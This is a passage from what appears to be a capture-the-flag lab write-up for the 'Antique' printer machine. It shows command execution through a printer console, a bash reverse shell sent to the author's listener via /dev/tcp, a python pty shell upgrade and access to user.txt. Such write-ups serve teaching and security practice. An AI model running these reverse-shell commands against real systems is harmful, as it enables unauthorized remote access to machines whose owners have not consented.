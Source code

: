     
    
    > exec id
    uid=7(lp) gid=7(lp) groups=7(lp),19(lpadmin)
    

That’s execution!

### Reverse Shell

My go-to reverse shell is bash (see my video on how it works
[here](https://www.youtube.com/watch?v=OjkVep2EIlw)). Given this is a printer,
I’ll check if `bash` is on the box, and it is:

    
    
    > exec which bash
    /usr/bin/bash
    

I’ll start `nc` listening on my host using `nc -lnvp 443`, and the run the
reverse shell on Antique:

    
    
    > exec bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'
    

It just hangs, but at `nc` there’s a shell:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.107 53188
    bash: cannot set terminal process group (1014): Inappropriate ioctl for device
    bash: no job control in this shell
    lp@antique:~$ id 
    uid=7(lp) gid=7(lp) groups=7(lp),19(lpadmin)
    

The `script` shell upgrade trick didn’t work for me (just messed up my
terminal), but the Python one worked fine:

    
    
    lp@antique:~$ python3 -c 'import pty;pty.spawn("bash")'
    lp@antique:~$ ^Z
    [1]+  Stopped                 nc -lnvp 444
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 444
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    lp@antique:~$ ls
    telnet.py  user.txt
    lp@antique:~$ 
    

I can access `user.txt`:

    
    